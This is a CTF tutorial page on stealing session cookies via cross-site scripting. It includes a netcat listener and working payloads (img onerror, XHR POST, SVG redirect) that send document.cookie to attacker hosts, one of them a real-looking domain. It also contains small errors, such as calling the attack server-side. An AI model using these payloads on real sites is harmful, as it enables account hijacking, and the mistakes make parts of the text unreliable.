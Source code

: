 ```yaml
---
description: >-
  Exploiting web application vulnerabilities to steal authentication cookies and
  escalate privilege or assume identity of another user
---
```


# Stealing Cookies

## Overview

Many websites use [cookies](https://kb.iu.edu/d/agwm) to authenticate users or to keep track of users across the application after authentication has occurred. Cookies can correlate to a specific user id, and lets the server know what authority the user has to access resources or make changes. 

Often, the use of stealing cookies in the context of a CTF involves escalating privilege from a normal user account to that of an admin. This could involve stealing the cookie of an authenticated admin in order to gain the privilege of that user. To do  so, one might exploit a cross site scripting attack, or XSS, in which an administrator or other user can be tricked to clicking a link which sends the attacker his or her cookies. Read more about XSS [here](./).

## Guide to Stealing Cookies

Stealing cookies is a _server side_ attack. This means that aside from the CTF player, another user has to be interacted with to trigger the vulnerability. In CTF context, this   could mean interacting with the CTF organizers/facilitators, or it could mean the organizers have set up some kind of automated process. An example of an automated process would be automated actions on [Selenium](https://www.selenium.dev/). 

### Step 1, Find a [XSS Vulnerability ](./)

To find an [XSS vulnerability](./), you often need to test input fields on a webpage. These can be comment boxes, input forms, or anywhere else you can submit text to the server. Below are some good resources for testing various inputs which _might_ trigger an [XSS vulnerability](./). 

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" caption="PortSwigget Cross Site Scripting Cheat Sheet" %}

{% embed url="https://owasp.org/www-community/xss-filter-evasion-cheatsheet" caption="OWASP XSS Filter Cheat Sheet" %}

### Step 2, Create Payload

To effectively steal another user's cookie, your payload needs to do two things; it needs to collect a session cookie, and it needs to display the cookie so you can see it. The later of the two steps is different depending if you are competing in a local network CTF or one hosted over the internet. 

#### Local Network Payload

A local network CTF can be defined as a CTF in which the target CTF application and your attack machine are on the same network. These can include a [VulnHub](../../../types/boot-2-root/vulnhub.md) [boot 2 root](../../../types/boot-2-root/) challenge where you are running the CTF and your attack machine in the same virtualization software. Payloads in a local network need to send cookies _directly_  to your attack machine. An easy way to accomplish this is with netcat. 

#### Netcat 

Start a netcat listener on port 80 . Once started, the payload for the XSS exploit should point directly to your attack machine's local ip and port 80.

```bash
nc -lnvp 80
```

An example payload might look like this. \([source](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)\)

```markup
<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>
```

#### Stealing Cookies over the Internet

When competing in an online event, a local netcat listener will not work. Instead of directing the cookie locally, you can direct it to a resource you own on the internet. One of these best ways this can be done is with requestbin and pipedream

#### Sign up for a free requestbin account

{% embed url="https://requestbin.com/" %}

Once signed in, your first endpoint will be automatically generated for you. On the middle of the endpoint dashboard, select the create http source button. This will take you over to pipedream, a site where you can see live requests to your endpoint url. 

![](../../../.gitbook/assets/screen-shot-2020-06-15-at-9.47.14-pm.png)

On the pipedream dashboard, you will see a new endpoint url. This is the target that you will want to use in your XSS payload when stealing cookies, however, instead of a netcat listener receiving the connection request and credentials, you will see requests through the pipedream dashboard.

### Step 3: Triggering the Exploit

The final step after identifying an XSS vulnerability, crafting the payload, and preparing to receive a connection, is to get another users to trigger the exploit. Depending on the CTF, this might be done by "submitting" your payload to the CTF server, and some automated process using software like selenium might trigger the XSS and send the request back to your endpoint.  

#### Javascript

```text
allCookies = document.cookie;
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://cors-anywhere.herokuapp.com/http://mom.bounceme.net:8888/");
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(allCookies);
```

#### Redirecting to your php server

```text
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0" x="0" y="0" width="194" height="200" id="xss"><script type="text/ecmascript">document.location='http://yourdomain:port/cookiestealer.php?c='+document.cookie;</script></svg>
```

#### URL encode an SVG embed

```text
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```



